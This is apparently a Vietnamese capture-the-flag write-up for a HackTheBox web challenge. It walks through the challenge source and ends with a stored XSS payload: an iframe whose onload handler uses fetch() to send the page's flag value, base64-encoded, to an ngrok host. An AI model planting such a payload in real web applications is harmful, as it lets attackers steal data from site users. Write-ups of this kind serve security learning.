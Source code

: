 ![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/Untitled.png)
ta tiến hành đọc code và thấy rằng ở tệp __challenge/views/settings.html__ có flag nằm ở thẻ input
![alt](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/4.png)
<br />
tệp challenge/routes/index.js có đoạn code mô tả
chỉ cần truy cập vào đường dẫn __/settings__ thì sẽ nhận response là __settings.html__ nhưng mà đường dẫn này chỉ có ip localhost mới được truy cập.
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/1.png)

ở đoạn mã này có mô tả, ta chỉ cần gửi 1 gói __json gồm có name, email, website, message__ thì sẽ lưu vào database
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/3.png)
và sau đó con bot sẽ tiến hành truy cập đến đường dẫn __/tickets__
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/%60.png)

khi vào đường dẫn __/tickets__  này, sẽ hiện thị ra toàn bộ dữ liệu trong table __tickets__ 
![](https://github.com/magnetohvcs/ctf/blob/main/ctf-hackthebox/Auth0-CTF/web_blink_host/src/2.png)

bây giờ ta chỉ cần chèn mã script vào bất kỳ trường __name, email, website, message__ trong gói json gửi lên __/api/submit_ticket__   để thực hiện XSS gửi flag về máy mình
``` 
<iframe id="iframetrung" src="settings" onload=fetch("http://027d-2001-ee0-4f0f-d3b0-910-70-84f3-2af0.ngrok.io/?flag="+btoa(document.getElementById('iframetrung').contentWindow.document.getElementsByTagName("input")[4].value)); >
</iframe>
```
và dùng công cụ ngrok để nhận flag gửi về
